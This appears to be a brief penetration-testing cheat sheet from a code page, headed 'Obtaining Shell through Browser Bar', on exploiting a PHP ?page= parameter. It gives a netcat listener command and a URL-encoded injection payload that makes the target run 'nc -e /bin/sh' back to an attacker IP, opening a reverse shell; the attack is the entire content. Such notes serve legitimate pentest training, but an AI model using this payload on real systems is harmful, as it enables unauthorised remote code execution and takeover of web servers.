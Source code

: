 # PHP Penteration Testing Techniques

### Obtaining Shell through Browser Bar
```
# If you get similar to ?page=index in the browser bar
# In your attacking machine
nc -nlvp 441

# In the browser bar. Replace 10.11.1.139 with your attacking IP.
http://thedomain.com/index.php?page=index%27);${system(%27nc%20-e%20/bin/sh%2010.11.1.139%20441%27)};%23
```

